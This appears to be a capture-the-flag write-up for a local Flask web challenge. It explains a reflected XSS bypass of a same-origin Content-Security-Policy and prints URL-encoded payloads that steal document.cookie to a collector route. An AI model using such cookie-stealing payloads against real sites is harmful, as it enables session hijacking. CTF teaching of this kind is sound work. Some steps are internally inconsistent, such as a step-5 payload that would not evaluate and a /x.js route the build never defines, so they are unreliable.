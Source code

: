 # XSS\_CSP – Personalised Write‑up

**Category:** Web – 150 pts
**Flag:** `flag{xss_csp}`

---


## Challenge Flow

1. The application only has a single point of `GET /?q=<value>`
2. Using `/?q=test` prints test on the page and in the console, showing q lands inside a `<script>` block
3. Looking at the code shows it only escapes `& < > "` so we can break the JS string with `";` because the single quote is still allowed
4. The server also sends `default-src 'self'; script-src 'self'` so inline code is blocked but we can load a new `<script src=...>` from the same origin, pointing it at **/c**
5. Build the payload of  `";</script><script src=/c?c='+document.cookie></script>` then URL‑encode it and call `/?q=%22%3B%3C/script%3E<script%20src=/c?c='+document.cookie></script>`
6. Visiting that URL sends a request to **/c?c=flag{xss\_csp}** and the server reveals the flag{xss_csp}

---









## How Difficulty Was Increased and Defense Mechanisms

I increased the difficulty that blocked the obvious script injections by using manual html escaping, this forces the solver to actually look at the website precisely. I also increased the difficulty by adding a chain of different elements that forced solvers to use string‑break, CSP bypass,  same‑origin script instead of using a one-liner.






## Indepth Build and Solution Notes

### Build Section

This CTF challenge is a tiny flask web app with 3 routes of 
- 
**What it is.**
A tiny Flask app with three routes: 
- `GET /` — renders a search page and inlines the user’s `q` value inside a `<script>` block.
- `GET /admin` — sets the flag as a cookie: `flag=flag{xss_csp}; Path=/; Secure`
- `GET /c` — “collector” that logs whatever arrives in the c query param to the server console.

Each response adds a `Content-Security-Policy: default-src 'self'; script-src 'self'`. This is because it blocks incline scripts and allows external scripts. As a result, the attack runs by loading a self‑hosted external script. The reason why XSS can occur in this task is because this is a reflected XSS using JavaScript strings, executed via a same-oridin external script comply with CSP. It is reflected because it is immediately sent to the servers response and nothing is stored. The vulnerability is because the page escapes q for input value in index and then injects q straight into javascript. The example in the code is too long so here is a simplified example below. 

```python
    "<script>"
    "let query = \"" + q + "\";"
    "console.log('User searched:', query);"
    "</script>"
```

Because of te filter used so that code works for HTML, there are some string that can still break the task with an example playload in `";alert(1)//`.


Howeverm because of the use of the Content Security Policy (CSP) which is a security feature that helps stop Cross-Site Scripting (XSS) attacks by controlling the resources a browser is allowed to load for a web page, inline JS does not work, an example of a failing test that would usually work is
```JavaScript
";fetch('/c?c='+document.cookie)//
```
But it does not work in this instance. 

This forces solvers to understand the line of JS string → HTML end‑script → external script. This means that the task requires the user to break the JS string, then break the inline script and finally inject a new external script. 


---

### Solution Section


0. Run the server
- Use python3 app.py in web-xss-csp
- Make sure that all depencies are present
- head to the home page `https://127.0.0.1:5000`

1. Plan the injection
- Context is inside `let query = "<HERE>";` so it breaks the string with `"` and then ;. close the script with `</script>`
- Insert an external `<script src="/x.js"></script>` that runs and executes
```js
new Image().src='/c?c='+encodeURIComponent(document.cookie);
```
which issues a GET to `/c?c=<cookie>`, and the server prints `Stolen: ...`.


2. Payload - URL-encoded

**Encoded**
```
/?q=%22%3B%3C%2Fscript%3E%3Cscript%20src%3D%2Fx.js%3E%3C%2Fscript%3E
```

**Decoded**

```html
";</script><script src=/x.js></script>
```

3. Execute the payload

Using the website `https://127.0.0.1:5000/?q=%22%3B%3C%2Fscript%3E%3Cscript%20src%3D%2Fx.js%3E%3C%2Fscript%3E`

```
Stolen: flag{xss_csp}
```


---

## Related & Future Variants

- Stored XSS where the script is permanently stored on the vulnerable web server, often in a database, this can combine with sqli
- DOM-based XSS where the attack occurs entirely within the client-side code.


---

### Sources

* **MDN – Content Security Policy** https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
* **PortSwigger – DOM‑based XSS** https://portswigger.net/web-security/cross-site-scripting/dom-based
* **PayloadsAllTheThings – XSS** https://github.com/swisskyrepo/PayloadsAllTheThings#xss-cross-site-scripting
